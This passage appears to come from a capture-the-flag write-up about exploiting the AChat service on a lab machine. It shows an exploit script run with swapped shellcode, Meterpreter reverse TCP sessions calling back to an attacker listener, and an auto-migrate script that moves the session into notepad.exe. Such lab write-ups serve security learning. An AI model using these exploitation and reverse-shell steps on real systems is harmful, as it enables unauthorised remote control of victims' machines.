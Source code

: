 

Then replace the shellcode in the script with our own.

Now, start up `exploit/multi/handler` in `metasploit`, and run the
script:



    root@kali# python achat-shell-8081.py
    ---->{P00F}!





    [*] Started reverse TCP handler on 10.10.14.157:4433
    [*] Sending stage (179779 bytes) to 10.10.10.74
    [*] Meterpreter session 1 opened (10.10.14.157:4433 -> 10.10.10.74:49159) at 2018-03-10 13:39:32 -0500

    meterpreter > w
    [*] 10.10.10.74 - Meterpreter session 1 closed.  Reason: Died



Unfortunately, this getting dropped consistently happens each time.

#### script + meterpreter + auto-migrate script

To get around the immediate session death, I employed a `AutoRunScript`
to migrate out of the achat process as soon as the connection is
established.

First, create an `.rc` file:



    root@kali# cat automigrate.rc
    run post/windows/manage/migrate



Then set it to run on connection:



    msf exploit(multi/handler) > set AutoRunScript multi_console_command -r /root/automigrate.rc



Now, on running the script, we can get an interactive session:



    msf exploit(multi/handler) > set AutoRunScript multi_console_command -r /root/automigrate.rc
    [*] Started reverse TCP handler on 10.10.14.157:4433
    [*] Sending stage (179779 bytes) to 10.10.10.74
    [*] Meterpreter session 11 opened (10.10.14.157:4433 -> 10.10.10.74:49175) at 2018-03-10 14:10:41 -0500
    [*] Session ID 11 (10.10.14.157:4433 -> 10.10.10.74:49175) processing AutoRunScript 'multi_console_command -r /root/automigrate.rc'
    [*] Running Command List ...
    [*]     Running command run post/windows/manage/migrate
    [*] Running module against CHATTERBOX
    [*] Current server process: AChat.exe (1104)
    [*] Spawning notepad.exe process to migrate to
    [+] Migrating to 584
    [+] Successfully migrated to process 584
